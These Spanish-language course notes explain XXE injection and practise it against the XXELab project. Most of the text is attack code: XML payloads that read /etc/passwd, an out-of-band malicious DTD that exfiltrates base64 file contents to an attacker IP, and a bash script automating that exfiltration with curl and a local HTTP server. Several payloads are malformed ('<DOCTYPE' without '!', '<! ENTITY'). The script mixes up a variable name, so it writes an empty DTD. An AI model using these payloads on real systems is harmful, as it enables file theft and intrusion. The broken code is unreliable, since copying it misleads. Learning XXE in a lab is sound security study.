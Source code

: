 # # XML External Entity Injection (XXE)

Tags: #XXE #OWASP #Explotacion 

Cuando hablamos de **XML External Entity** (**XXE**) **Injection**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “**ir a ciegas**” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un **Document Type Definition** (**DTD**) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo **SSRF** (**Server-Side Request Forgery**). Esta técnica de ataque puede permitir a un atacante escanear **puertos internos** en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener **información sensible** o incluso **tomar el control** de los servicios internos.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando en esta clase para practicar esta vulnerabilidad:

-   **XXELab**: [https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab)

![| 00x300](Pasted%20image%2020230420205723.png)
![00x300](Pasted%20image%2020230420205849.png)
![00x200](Pasted%20image%2020230420210056.png)
![00x200](Pasted%20image%2020230420210113.png)  ![00x200](Pasted%20image%2020230420210246.png)
![00x350](Pasted%20image%2020230420211907.png)
![00x280](Pasted%20image%2020230420212052.png)
También podemos explotar
![00x400](Pasted%20image%2020230421134216.png)

## XML en la web

* Usaremos XML como codigo para hacer los scripts. 
* El campo en donde debemos de fijarnos es aquel que el **Input** es el que nos representa en la web como **Output**

En el archivo XML debemos de colocar un DOCTYPE y ese es el que estaremos modificando
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myName "omar">]>                                                        <!-- Colocamos lo que queremos que salga en el output de la web -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "file:///etc/passwd">]>                                    <!-- Colocamos la ruta abosluta del archivo -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>    <!-- Representara el output en una sola linea en base64 -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "http://192.168.68.108/testXXE">]>            <!-- Hara una peticion GET a nuestro servidor buscando el archivo testXXE -->
	<root>
		<name>
			<email>
				&myFile;                                                              <!-- Llamamos a la entidad desde aqui -->
			</email>
		</name>
	</root>
```

## **XXE OOB Blind**
Cuando no se puede llamar la entidad desde el campo selecionado en la estructura, lo llamamos desde el DOCTYPE colocando el porcentaje al incio y final con el nombre. El archivo debe de tener la extension **.dtd**
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY % xxe SYSTEM "http://192.168.68.108/malicious.dtd"> %xxe;]>       <!-- Hara una peticion GET a nuestro servidor buscando el archivo testXXE -->
	<root>
		<name>
			<email>
				test@test.com                                                              <!-- Aveces no podemos llamar la entidad desde aqui -->
			</email>
		</name>
	</root>
```

* Asi es como hariamos un archivo .dtd externo
```bash
❯ nvim malicious.dtd                        # Creamos el archivo malicioso
```

* Haremos que el output en base64 me lo envie a mi maquina de atacante como una peticion por GET. Esto dentro del archivo  malicious.dtd
```xml
<! ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<! ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.68.108/?file=%file;' >">                  <!-- Debemos de colocar el % en HEX = 25 --> 
%eval;                                                                                                   <!-- Debemos de llamar a las entidades --> 
%exfil; 
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```


Con este automatizas el proceso y puedes solicitar el archivo que quieras.
```bash
❯ nvim xxe_oob.sh                        # Creamos el archivo para automatizar el resultado final 
```

```bash
#!/bin/bash

echo -ne "[+] Introdiuce el archivo a leer: " && read -r myFilename

maliciuos_dtd="""
<! ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=$myFilename">
<! ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.68.108/?file=%file;'>">                  
%eval;                                                                                                    
%exfil; """

echo $malicious_dtd > malicious.dtd

python3 -m http.server 80 &>response &

PID=$!

sleep 1; echo

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
<DOCTYPE foo [<! ENTITY % xxe SYSTEM "http://192.168.68.108/malicious.dtd"> %xxe;]>      
<root><name><email>test@test.com</email></name></root>' &>/dev/null

cat response  | grep -oP "/?file=\K[^.*]+" | base64 -d

kill -9 $PID 
wait $PID 2>/dev/null

rm response 2>/dev/null

```